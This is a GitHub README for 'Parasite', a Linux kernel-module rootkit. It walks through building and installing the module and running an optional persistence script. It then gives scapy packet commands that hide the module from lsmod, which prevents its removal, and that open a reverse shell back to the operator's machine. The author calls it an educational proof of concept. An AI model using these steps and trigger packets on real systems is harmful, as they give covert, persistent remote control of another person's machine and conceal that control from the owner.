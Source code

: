 # Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE/reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

TODO: Insert working kernel versions/distros

1. Update system and ensure linux-headers is installed
```sh
apt update && install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires Make)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x ./persist.sh

./persist.sh
```

5. Install the module
```sh
insmod LKM.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 3 options that can be used: hide, show, and reverse shell. It doesn't matter how you send the packet, but personally I used scapy. 

Note: You *must* replace **INSERT_IP** with the LKM machine's IP



- ROOTKIT_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
data='ROOTKIT_HIDE'
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

- ROOTKIT_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
data='ROOTKIT_SHOW'
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

- ROOTKIT_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
data='ROOTKIT_RSHELL127.0.0.1
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load=data))
```

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
TODO: Will add shortly
